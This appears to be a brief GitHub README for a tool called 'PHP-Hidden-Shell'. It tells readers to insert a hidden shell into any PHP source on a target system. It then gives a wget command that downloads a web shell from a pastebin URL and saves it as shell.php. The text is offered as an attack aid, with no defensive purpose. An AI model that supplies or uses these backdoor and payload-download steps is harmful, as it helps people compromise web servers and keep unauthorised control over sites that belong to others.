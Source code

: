 # PHP-Hidden-Shell
You can glue this hidden shell to any source of PHP on your target,
And then try to download & Make output file from your favorite web-shell hosted by pastebin for example :

wget http://pastebin.com/raw/shellkamu -O shell.php
